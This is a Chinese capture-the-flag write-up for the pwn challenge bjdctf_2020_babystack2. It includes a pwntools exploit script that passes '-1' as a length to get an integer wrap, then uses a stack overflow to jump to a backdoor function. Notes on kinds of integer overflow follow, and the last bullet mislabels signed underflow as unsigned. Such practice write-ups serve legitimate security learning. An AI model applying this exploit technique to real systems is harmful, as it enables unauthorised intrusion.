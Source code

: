 ## bjdctf_2020_babystack2

![image-20241201145208768](./../images/image-20241201145208768.png)

经典开局先看看保护

![image-20241201145307775](./../images/image-20241201145307775.png)

这里还是经典的nx保护开启

经典看汇编

![image-20241201150203750](./../images/image-20241201150203750.png)

这里经典看到了一个整数溢出并且在函数文档中发现了一个后门函数

![image-20241201150328936](./../images/image-20241201150328936.png)

因此这里的思路就是进行一个整数溢出而这里整数溢出发现当有符号nbytes参数大于10后会直接退出

而这里整数溢出发现有3中方法1.回绕，2.截断，3.溢出

因此我们输入-1时就会变成0xffffffff可以得到一个打容量

因此我们这里就可以使用栈溢出来进入后门函数中

exp：

```python
from pwn import*
io = remote("node5.buuoj.cn",29390)
io.sendlineafter("Please input the length of your name:",'-1')
payload = b'a'*(0x10+8)+p64(0x0400726)
io.sendline(payload)
io.interactive()
```

---

### 总结

关于整数的异常情况主要有三种：

1. 溢出，只有有符号数才会发生溢出。有符号数的最高位表示符号，在两正或两负相加时，有可能改变符号位的值，产生溢出。`溢出标志OF`可检测有符号数的溢出；
2. 回绕，无符号数0减1时会变成最大的数，如1字节的无符号数会变为255，而255加1会变成最小数0。`进位标志CF`可检测无符号数的回绕；
3. 截断，将一个较大宽度的数存入一个宽度小的操作数中，`高位发生截断`。

或者说计算机中有4种溢出情况，以32位整数为例。

- 无符号上溢：无符号数0xFFFFFFFF加1变为0的情况。
- 无符号下溢：无符号数0减去1变为0xFFFFFFFF的情况。
- 有符号上溢：有符号数正数0x7FFFFFFF加1变为负数0x80000000，即十进制-2147483648的情况。
- 无符号下溢：有符号负数0x80000000减去1变为正数0x7FFFFFFF的情况。